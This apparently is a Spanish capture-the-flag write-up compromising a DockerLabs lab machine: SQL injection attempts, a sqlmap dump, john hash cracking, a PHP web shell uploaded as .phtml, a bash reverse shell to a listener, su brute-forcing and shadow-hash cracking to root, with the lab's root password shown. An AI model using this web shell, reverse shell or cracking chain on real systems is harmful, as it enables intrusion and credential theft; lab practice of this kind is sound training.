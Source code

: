 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![image](https://github.com/user-attachments/assets/dba385cc-25fd-47ed-8789-fb7a1b457b55)


dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![image](https://github.com/user-attachments/assets/7ef3f704-d534-4c2f-9331-bbeffbfb11e3)

voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![image](https://github.com/user-attachments/assets/1a34f523-8919-41b2-bd7e-7af4cda97399)

ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![image](https://github.com/user-attachments/assets/13406494-f292-40af-aac2-0c5114932387)

creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![image](https://github.com/user-attachments/assets/61bfdc72-9ddf-4c67-b2ce-ef75e2229252)

cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![image](https://github.com/user-attachments/assets/dbdd29ef-b39f-4204-8cab-cb6743b931fb)


creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![image](https://github.com/user-attachments/assets/114eb20f-49a2-41da-972e-0dcc6c9736cb)


después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![Uploading image.png…]()

ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![[dockerlabs/medio/apolos/conexion1.png]]
entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![[diccionario.png]]

nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![[contraseña1.png]]
nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
